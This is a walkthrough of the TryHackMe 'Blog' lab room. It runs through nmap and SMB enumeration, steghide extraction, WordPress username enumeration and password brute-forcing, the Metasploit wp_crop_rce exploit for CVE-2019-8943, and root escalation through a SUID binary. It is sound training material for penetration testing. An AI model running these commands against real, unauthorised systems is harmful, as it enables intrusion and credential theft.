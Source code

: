 📝 TryHackMe: Blog | Full Walkthrough
Platform: TryHackMe
Room: Blog
Difficulty: Medium
Techniques: SMB Enumeration, Steganography, WordPress Exploitation, Privilege Escalation via SUID Binary

🧠 Summary

In this room, we exploit SMB shares, uncover hidden files using steganography, exploit a known WordPress vulnerability for remote code execution, and escalate privileges using a cleverly crafted SUID binary. Let’s dive deep.
🔍 Initial Recon

First, we add the target IP and hostname to /etc/hosts for convenience.

Next, run a full port scan:

nmap -sC -sV -T4 -p- <target-ip>

Open Ports Identified:

    22 (SSH)

    80 (HTTP)

    139, 445 (SMB)

📁 SMB Enumeration

We use smbmap to identify accessible shares:

smbmap -H <target-ip>

Out of the available shares, only BillySMB is accessible without credentials. Let’s recursively download its contents:

smbget -R smb://<target-ip>/BillySMB

Retrieved Files:

    Alice-White-Rabbit.jpg

    check-this.png

    tswift.mp4

🕵️ Steganography in Images

We suspect Alice-White-Rabbit.jpg contains hidden data. Using steghide, we extract embedded content:

steghide extract -sf Alice-White-Rabbit.jpg

Extracted File: rabbit_hole.txt
Content: A strange message — "I am wandering in deviance." — suggesting deeper exploration.
🌐 Web Enumeration

Use ffuf to brute-force directories:

ffuf -u http://<target-ip>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Discovered directories:

    /admin

    /login

WordPress Detected

We suspect this is a WordPress instance. Let’s use wpscan:

wpscan --url http://<target-ip> --enumerate u

We enumerate usernames successfully via the /wp-json/wp/v2/users/ API.
🔐 Brute-Forcing Credentials

We now brute-force login credentials for users kwheel and bjoel:

wpscan --url http://<target-ip> --passwords rockyou.txt --usernames kwheel

Successfully authenticate as kwheel.
🖼️ Exploiting WordPress – RCE via Image Upload

Identify the WordPress version and verify it’s vulnerable to CVE-2019-8943 (WordPress Core <= 5.0 - Remote Code Execution via Image Upload).

Use Metasploit:

msfconsole
use exploit/unix/webapp/wp_crop_rce

After configuring the module, fire the exploit.

🎉 Meterpreter session opened!
We are in as www-data.
🔓 Post-Exploitation: Lateral Movement

Search for user flags:

find / -name user.txt 2>/dev/null

We locate user.txt under /media/usb/, accessible via user bjoel, but www-data lacks permissions.

We check wp-config.php and extract database hashes.

Using hash-identifier, we identify the hashing algorithm and crack the kwheel password. Unfortunately, the bjoel hash remains uncracked.
🚀 Privilege Escalation

Enumerate SUID binaries:

find / -perm -4000 2>/dev/null

We spot a suspicious binary: /usr/sbin/checker
Analyzing the Binary

Run ltrace on it:

ltrace /usr/sbin/checker

It checks for an admin environment variable. If present, it sets UID to 0 and spawns a shell.

Export the variable and rerun the binary:

export admin=1
/usr/sbin/checker

💥 Root shell obtained!
🏁 Capture the Flags

    User flag: /media/usb/user.txt

    Root flag: /root/root.txt


